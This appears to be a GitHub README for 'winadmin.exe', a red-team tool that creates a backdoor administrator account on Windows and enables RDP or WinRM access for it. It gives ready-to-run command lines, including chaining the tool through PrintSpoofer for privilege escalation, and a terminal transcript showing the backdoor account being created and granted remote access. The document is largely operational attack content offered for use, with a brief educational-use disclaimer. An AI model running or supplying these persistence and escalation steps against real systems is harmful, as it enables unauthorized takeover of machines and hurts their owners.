 # winadmin.exe

`winadmin.exe` is a tool designed for creating a backdoor user and enabling remote access for the user in CTFs (Capture The Flag) and Red Teaming engagements. It allows you to quickly add a new user to the administrators group and enable remote access protocols like RDP (Remote Desktop Protocol) and WinRM (Windows Remote Management) on Windows systems.

## Usage

```bash
.\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]
```
OR
```bash
.\PrintSpoofer.exe -i -c "C:\Windows\Temp\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]"
```

- `-u <username>`: Specify the username for the new user.
- `-p <password>`: Specify the password for the new user.
- `-e {rdp|winrm}`: Enable remote access (RDP or WinRM) for the new user. Use `rdp` for Remote Desktop Protocol access or `winrm` for Windows Remote Management access.

**Note:** The tool must be executed with administrator privileges.

## Examples

1. To add a new user to the administrators group:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1
```

2. To add a new user to the administrators group and enable RDP access:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp
```

3. To add a new user to the administrators group and enable WinRM access:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e winrm
```

## Scenario (I): PrintSpoofer

```
PS C:\Temp> .\winadmin.exe
.\winadmin.exe
Usage: C:\Temp\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]
  -u <username> : Specify the username for the new user.
  -p <password> : Specify the password for the new user.
  -e {rdp|winrm} : Enable remote access (RDP or WinRM) for the new user.
PS C:\Temp>
PS C:\Temp> .\PrintSpoofer.exe -i -c "C:\Temp\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp"        
.\PrintSpoofer.exe -i -c "C:\Temp\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp"                    
[+] Found privilege: SeImpersonatePrivilege                                                           
[+] Named pipe listening...                                                                           
[+] CreateProcessAsUser() OK                                                                          
The command completed successfully.                                                                   
                                                                                                      
The command completed successfully.                                                                   
                                                                                                      
The command completed successfully.                                                                   
                                                                                                      
The operation completed successfully.                                                                 
                                                                                                      
Updated 3 rule(s).                                                                                    
Ok.                                                                                                   
                                                                                                      
****************************************************                                                  
***** winadmin.exe - Backdoor User Creation Tool ******                                               
****************************************************                                                  
Author: Kryptohaker                                                                                   
URL: https://github.com/kryptohaker                                                                   
****************************************************                                                  
                                                                                                      
[+] kryptohaker user was successfully created.                                                        
[+] kryptohaker user was added to the local administrators' group.                                    
[+] RDP access was enabled for kryptohaker user.                                                      
PS C:\Temp> net user kryptohaker 

net user kryptohaker
User name                    kryptohaker
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/3/2023 1:18:40 AM
Password expires             9/14/2023 1:18:40 AM
Password changeable          8/4/2023 1:18:40 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
Global Group memberships     *None
The command completed successfully.
```

## Disclaimer

This tool is intended for educational and ethical purposes only. Misuse of this tool for any malicious or illegal activities is strictly prohibited. The author is not responsible for any damage or loss caused by the misuse of this tool.
